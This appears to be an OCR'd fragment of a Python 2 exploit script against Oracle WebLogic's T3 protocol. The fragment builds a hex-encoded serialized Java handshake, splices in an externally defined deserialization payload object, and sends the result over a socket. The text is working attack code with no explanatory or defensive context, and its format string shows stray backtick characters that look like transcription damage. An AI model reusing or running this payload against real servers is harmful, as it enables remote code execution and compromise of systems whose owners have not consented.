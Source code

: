 ```
payload='\x00\x00\x09\xe4\x01\x65\x01\xff\xff\xff\xff\xff\xff\xff\xff\x00\x00\x00\x71\x00\x00\xea\x60\x00\x00\x00\x18\x43\x2e\xc6\xa2\xa6\x39\x85\xb5\xaf\x7d\x63\xe6\x43\x83\xf4\x2a\x6d\x92\xc9\xe9\xaf\x0f\x94\x72\x02\x79\x73\x72\x00\x78\x72\x01\x78\x72\x02\x78\x70\x00\x00\x00\x0c\x00\x00\x00\x02\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x01\x00\x70\x70\x70\x70\x70\x70\x00\x00\x00\x0c\x00\x00\x00\x02\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x01\x00\x70\x06\xfe\x01\x00\x00\xac\xed\x00\x05\x73\x72\x00\x1d\x77\x65\x62\x6c\x6f\x67\x69\x63\x2e\x72\x6a\x76\x6d\x2e\x43\x6c\x61\x73\x73\x54\x61\x62\x6c\x65\x45\x6e\x74\x72\x79\x2f\x52\x65\x81\x57\xf4\xf9\xed\x0c\x00\x00\x78\x70\x72\x00\x24\x77\x65\x62\x6c\x6f\x67\x69\x63\x2e\x63\x6f\x6d\x6d\x6f\x6e\x2e\x69\x6e\x74\x65\x72\x6e\x61\x6c\x2e\x50\x61\x63\x6b\x61\x67\x65\x49\x6e\x66\x6f\xe6\xf7\x23\xe7\xb8\xae\x1e\xc9\x02\x00\x09\x49\x00\x05\x6d\x61\x6a\x6f\x72\x49\x00\x05\x6d\x69\x6e\x6f\x72\x49\x00\x0b\x70\x61\x74\x63\x68\x55\x70\x64\x61\x74\x65\x49\x00\x0c\x72\x6f\x6c\x6c\x69\x6e\x67\x50\x61\x74\x63\x68\x49\x00\x0b\x73\x65\x72\x76\x69\x63\x65\x50\x61\x63\x6b\x5a\x00\x0e\x74\x65\x6d\x70\x6f\x72\x61\x72\x79\x50\x61\x74\x63\x68\x4c\x00\x09\x69\x6d\x70\x6c\x54\x69\x74\x6c\x65\x74\x00\x12\x4c\x6a\x61\x76\x61\x2f\x6c\x61\x6e\x67\x2f\x53\x74\x72\x69\x6e\x67\x3b\x4c\x00\x0a\x69\x6d\x70\x6c\x56\x65\x6e\x64\x6f\x72\x71\x00\x7e\x00\x03\x4c\x00\x0b\x69\x6d\x70\x6c\x56\x65\x72\x73\x69\x6f\x6e\x71\x00\x7e\x00\x03\x78\x70\x77\x02\x00\x00\x78\xfe\x01\x00\x00' 
payload=payload+payloadObj 
payload=payload+'\xfe\x01\x00\x00\xac\xed\x00\x05\x73\x72\x00\x1d\x77\x65\x62\x6c\x6f\x67\x69\x63\x2e\x72\x6a\x76\x6d\x2e\x43\x6c\x61\x73\x73\x54\x61\x62\x6c\x65\x45\x6e\x74\x72\x79\x2f\x52\x65\x81\x57\xf4\xf9\xed\x0c\x00\x00\x78\x70\x72\x00\x21\x77\x65\x62\x6c\x6f\x67\x69\x63\x2e\x63\x6f\x6d\x6d\x6f\x6e\x2e\x69\x6e\x74\x65\x72\x6e\x61\x6c\x2e\x50\x65\x65\x72\x49\x6e\x66\x6f\x58\x54\x74\xf3\x9b\xc9\x08\xf1\x02\x00\x07\x49\x00\x05\x6d\x61\x6a\x6f\x72\x49\x00\x05\x6d\x69\x6e\x6f\x72\x49\x00\x0b\x70\x61\x74\x63\x68\x55\x70\x64\x61\x74\x65\x49\x00\x0c\x72\x6f\x6c\x6c\x69\x6e\x67\x50\x61\x74\x63\x68\x49\x00\x0b\x73\x65\x72\x76\x69\x63\x65\x50\x61\x63\x6b\x5a\x00\x0e\x74\x65\x6d\x70\x6f\x72\x61\x72\x79\x50\x61\x74\x63\x68\x5b\x00\x08\x70\x61\x63\x6b\x61\x67\x65\x73\x74\x00\x27\x5b\x4c\x77\x65\x62\x6c\x6f\x67\x69\x63\x2f\x63\x6f\x6d\x6d\x6f\x6e\x2f\x69\x6e\x74\x65\x72\x6e\x61\x6c\x2f\x50\x61\x63\x6b\x61\x67\x65\x49\x6e\x66\x6f\x3b\x78\x72\x00\x24\x77\x65\x62\x6c\x6f\x67\x69\x63\x2e\x63\x6f\x6d\x6d\x6f\x6e\x2e\x69\x6e\x74\x65\x72\x6e\x61\x6c\x2e\x56\x65\x72\x73\x69\x6f\x6e\x49\x6e\x66\x6f\x97\x22\x45\x51\x64\x52\x46\x3e\x02\x00\x03\x5b\x00\x08\x70\x61\x63\x6b\x61\x67\x65\x73\x71\x00\x7e\x00\x03\x4c\x00\x0e\x72\x65\x6c\x65\x61\x73\x65\x56\x65\x72\x73\x69\x6f\x6e\x74\x00\x12\x4c\x6a\x61\x76\x61\x2f\x6c\x61\x6e\x67\x2f\x53\x74\x72\x69\x6e\x67\x3b\x5b\x00\x12\x76\x65\x72\x73\x69\x6f\x6e\x49\x6e\x66\x6f\x41\x73\x42\x79\x74\x65\x73\x74\x00\x02\x5b\x42\x78\x72\x00\x24\x77\x65\x62\x6c\x6f\x67\x69\x63\x2e\x63\x6f\x6d\x6d\x6f\x6e\x2e\x69\x6e\x74\x65\x72\x6e\x61\x6c\x2e\x50\x61\x63\x6b\x61\x67\x65\x49\x6e\x66\x6f\xe6\xf7\x23\xe7\xb8\xae\x1e\xc9\x02\x00\x09\x49\x00\x05\x6d\x61\x6a\x6f\x72\x49\x00\x05\x6d\x69\x6e\x6f\x72\x49\x00\x0b\x70\x61\x74\x63\x68\x55\x70\x64\x61\x74\x65\x49\x00\x0c\x72\x6f\x6c\x6c\x69\x6e\x67\x50\x61\x74\x63\x68\x49\x00\x0b\x73\x65\x72\x76\x69\x63\x65\x50\x61\x63\x6b\x5a\x00\x0e\x74\x65\x6d\x70\x6f\x72\x61\x72\x79\x50\x61\x74\x63\x68\x4c\x00\x09\x69\x6d\x70\x6c\x54\x69\x74\x6c\x65\x71\x00\x7e\x00\x05\x4c\x00\x0a\x69\x6d\x70\x6c\x56\x65\x6e\x64\x6f\x72\x71\x00\x7e\x00\x05\x4c\x00\x0b\x69\x6d\x70\x6c\x56\x65\x72\x73\x69\x6f\x6e\x71\x00\x7e\x00\x05\x78\x70\x77\x02\x00\x00\x78\xfe\x00\xff\xfe\x01\x00\x00\xac\xed\x00\x05\x73\x72\x00\x13\x77\x65\x62\x6c\x6f\x67\x69\x63\x2e\x72\x6a\x76\x6d\x2e\x4a\x56\x4d\x49\x44\xdc\x49\xc2\x3e\xde\x12\x1e\x2a\x0c\x00\x00\x78\x70\x77\x46\x21\x00\x00\x00\x00\x00\x00\x00\x00\x00\x09\x31\x32\x37\x2e\x30\x2e\x31\x2e\x31\x00\x0b\x75\x73\x2d\x6c\x2d\x62\x72\x65\x65\x6e\x73\xa5\x3c\xaf\xf1\x00\x00\x00\x07\x00\x00\x1b\x59\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\x00\x78\xfe\x01\x00\x00\xac\xed\x00\x05\x73\x72\x00\x13\x77\x65\x62\x6c\x6f\x67\x69\x63\x2e\x72\x6a\x76\x6d\x2e\x4a\x56\x4d\x49\x44\xdc\x49\xc2\x3e\xde\x12\x1e\x2a\x0c\x00\x00\x78\x70\x77\x1d\x01\x81\x40\x12\x81\x34\xbf\x42\x76\x00\x09\x31\x32\x37\x2e\x30\x2e\x31\x2e\x31\xa5\x3c\xaf\xf1\x00\x00\x00\x00\x00\x78' 
print 'sending payload...' 
payload = "`{`0`}``{`1`}`".format(struct.pack('!i', len(payload)), payload[4:]) 

#print len(payload) 

outf = open('pay.tmp','w') 
outf.write(payload) 
outf.close() 
sock.send(payload)
```

